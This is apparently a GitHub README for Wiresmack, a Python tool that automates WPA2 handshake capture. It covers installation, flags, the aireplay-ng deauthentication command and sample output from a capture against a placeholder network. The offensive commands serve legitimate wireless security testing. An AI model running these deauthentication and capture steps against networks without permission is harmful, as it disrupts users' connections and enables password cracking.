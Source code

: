 # **Wiresmack**

_Wiresmack is a tool designed for wireless network monitoring and attack automation using Airodump-ng and related utilities._

## Overview
Wiresmack streamlines *wireless security assessments* by automating data collection, deauthentication attacks, and handshake captures. It integrates *multiprocessing*, *subprocess management*, and *custom scripting* for efficient execution.

**Developed and Tested on:**
```
 Kali Linux (`latest`)
```

**Installation:**
```bash
sudo apt install cowpatty
```
```bash
git clone https://github.com/jesserubio/wiresmack.git
cd wiresmack
pip install -r requirements.txt
```

**Docker Installation:**
```bash
git clone https://github.com/jesserubio/wiresmack.git
cd wiresmack
docker build -t wiresmack .
docker run -it --rm --privileged --network=host -v "$(pwd)":/opt/wiresmack wiresmack
```

**Usage:**
```python
Usage Examples:
  python wiresmack.py -i wlan0 -p5


Interface Arguments:
  -i       Set interface <wlan0>

Aireplay-ng Arguments:
  -p       Set number of deauthentication packets <5>

Global Arguments:
  --debug  Set logging level [DEBUG]
```
Run Wiresmack, select target ESSID and capture the Four-way Handshake!
```python
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│                                                                                                             │
|                    __      __.__                                             __                             |
|                   /  \    /  \__|______   ____   ______ _____ _____    ____ |  | __                         |
|                   \   \/\/   /  \_  __ \_/ __ \ /  ___//     \\__  \ _/ ___\|  |/ /                         |
|                    \        /|  ||  | \/\  ___/ \___ \|  Y Y  \/ __ \\  \___|    <                          |
|                     \__/\  / |__||__|    \___  >____  >__|_|  (____  /\___  >__|_ \                         |
|                          \/                  \/     \/      \/     \/     \/     \/                         │
│                                                                                                             │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Target ────────────────────────────────────────────────────────────────────────────────────────────────────╮
│                                                                                                             │
│  BSSID: BB:BB:BB:BB:BB:BB                                                                                   │
│  Channel: 7                                                                                                 │
│  Encryption: WPA2                                                                                           │
│  SSID: Contoso                                                                                              │
│  Client(s): CC:CC:CC:CC:CC:CC                                                                               │
│                                                                                                             │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Aireplay-ng ───────────────────────────────────────────────────────────────────────────────────────────────╮
│                                                                                                             │
│  aireplay-ng -0 5 -a BB:BB:BB:BB:BB:BB -c CC:CC:CC:CC:CC:CC --ignore-negative-one wlan0                     │
│                                                                                                             │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
17:00:01  Waiting for beacon frame (BSSID: BB:BB:BB:BB:BB:BB) on channel 7
17:00:02  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [ 1|34 ACKs]
17:00:03  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [17|64 ACKs]
17:00:04  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [ 1|61 ACKs]
17:00:05  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [ 6|128 ACKs]
17:00:06  Sending 64 directed DeAuth (code 7). STMAC: [CC:CC:CC:CC:CC:CC] [ 2|121 ACKs]
 [✔] Captured a Four-way Handshake!
 [✔] Four-way Handshake is most likely for: BB:BB:BB:BB:BB:BB, Contoso
 Capture file moved to: results/Contoso_April-20-2025_17:00:07.cap

 Press <ENTER> to exit
```

### Legal Disclaimer
This project is intended for educational and security research purposes only. Unauthorized use of network monitoring tools may violate laws and regulations. The developers assume no responsibility for misuse. Always ensure you have explicit permission before testing on any network.
